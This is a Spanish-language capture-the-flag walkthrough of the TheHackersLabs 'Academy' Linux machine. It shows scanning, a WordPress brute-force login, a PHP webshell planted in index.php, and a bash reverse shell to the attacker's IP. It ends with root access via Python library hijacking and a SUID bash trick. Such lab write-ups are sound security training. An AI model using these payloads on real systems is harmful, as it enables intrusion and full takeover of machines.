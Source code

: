 ```yaml
---
layout: post
title: "Academy"
date: 2024-06-11 16:25:23
category: hackerlabs
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Academy </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/academy/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Academy/host.png){:.margin}

**1\.** Detecto los equipos activos en la red.

`sudo arp-scan -l`

![img](/notas/public/img/thehackerlabs/Academy/arp.png){:.margin}

**2\.** Escaneo los puertos y detalles de los servicios que corre.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 192.168.1.9`

![img](/notas/public/img/thehackerlabs/Academy/nmap.png){:.margin}

**3\.** En la web esta la web por defecto de Apache. 

`http://192.168.1.9`

![img](/notas/public/img/thehackerlabs/Academy/80.png){:.margin}

**4\.** Fuzzing de directorios y ficheros en la web.

`gobuster dir -u http://192.168.1.9/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/thehackerlabs/Academy/gobuster.png){:.margin}

**5\.** Analizando la web en /wordpress.

_5.1- La pagina no carga correctamente_

`http://192.168.1.9/wordpress/`

![img](/notas/public/img/thehackerlabs/Academy/80wordpress.png){:.margin}

_5.2- En su fuente veo que llama a un dominio_

![img](/notas/public/img/thehackerlabs/Academy/codewordpress.png){:.margin}

_5.3- Agrego el dominio al hosts, ahora la carga es correcta_

`sudo nano /etc/hosts`

`192.168.1.9  academy.thl`

![img](/notas/public/img/thehackerlabs/Academy/hosts.png){:.margin}
![img](/notas/public/img/thehackerlabs/Academy/80wordpressok.png){:.margin}

**6\.** Sigo con mas fuzzing en la web, no encuentro mucho mas.

`gobuster dir -u http://192.168.1.9/wordpress/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/thehackerlabs/Academy/gobusterwordpress.png){:.margin}

**7\.** Escaneo vulnerabilidades con wpscan, encuentra un usuario valido.

`wpscan --url http://192.168.1.9/wordpress -e vp,u --api-token='pasteyourapi'`

![img](/notas/public/img/thehackerlabs/Academy/wpscan.png){:.margin}

**8\.** Hago fuerza bruta al login de wordpress.

`wpscan --url http://192.168.1.9/wordpress -U dylan -P /usr/share/wordlists/rockyou.txt`

![img](/notas/public/img/thehackerlabs/Academy/wpsbruteforce.png){:.margin}

**9\.** Accedo al wordpress con las credenciales.

`http://192.168.1.9/wordpress/wp-login.php`

![img](/notas/public/img/thehackerlabs/Academy/wordpresslogin.png){:.margin}

**10\.** Obteniendo una webshell.

_10.1- Clickamos en file manager, y editamos el index.php_

![img](/notas/public/img/thehackerlabs/Academy/filemanager.png){:.margin}

_10.2- Añadimos nuestro codigo para ejecutar webshell_

`shell_exec($_GET["cmd"]);`

![img](/notas/public/img/thehackerlabs/Academy/editindex.png){:.margin}

_10.3- Probamos la ejecucion_

`academy.thl/wordpress/?cmd=cat /etc/passwd`

![img](/notas/public/img/thehackerlabs/Academy/80webshell.png){:.margin}

**11\.** Entablando conexion con una reverse shell.

_11.1- Me pongo en escucha_

`sudo nc -nlvp 443`

![img](/notas/public/img/thehackerlabs/Academy/nc.png){:.margin}

_11.2- Me envio la reverse shell_

`http://academy.thl/wordpress/?cmd=bash -c "bash -i>%26 /dev/tcp/192.168.1.13/443 0>%261"`

![img](/notas/public/img/thehackerlabs/Academy/reverseshell.png){:.margin}

_11.3- Recibo la conexion_

![img](/notas/public/img/thehackerlabs/Academy/ncok.png){:.margin}

**12\.** Encuentro un script python, veo que no especifica la ruta completa de la libreria.

`cd /opt`

`ls`

`cat backup.py`

![img](/notas/public/img/thehackerlabs/Academy/catbackup.png){:.margin}

_\- Aparentemente realiza una conexion por ssh, pero al ejecutar nos da un error_

**13\.** Probando Python Library Hijacking.

_13.1- Creo una script paramiko.py donde hare una peticion a mi servidor local_

`echo -e "import os\nos.system('curl -s http://192.168.1.13/prueba')" > paramiko.py`

`cat paramiko.py`

![img](/notas/public/img/thehackerlabs/Academy/paramikopy.png){:.margin}

_13.2- Veo que si funciona, pero esto no tiene sentido ya que ejecutamos sin privilegio alguno, es como ejecutar el mismo paramiko.py_

`python3 -m http.server 80`

`python3 backup.py`

![img](/notas/public/img/thehackerlabs/Academy/backuppy.png){:.margin}

**14\.** Escalando privilegios.

_14.1- Uso [pspy64](https://github.com/DominicBreuker/pspy/releases) para ver los procesos, al cabo de unos segundos veo que root busca ejecutar /opt/backup.sh_
`wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64 -q` 
`chmod +x pspy64`
`./pspy64`

![img](/notas/public/img/thehackerlabs/Academy/pspy64.png){:.margin}

_14.2- Creo el backup.sh con instrucciones para hacer suid el bash_
`echo "chmod u+s /bin/bash" > backup.sh`
`chmod +x backup.sh`

![img](/notas/public/img/thehackerlabs/Academy/backupsh.png){:.margin}

_14.3- Esperamos unos segundos para luego ejecutar bash -p_
`ls -l /bin/bash`
`bash -p`

![img](/notas/public/img/thehackerlabs/Academy/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>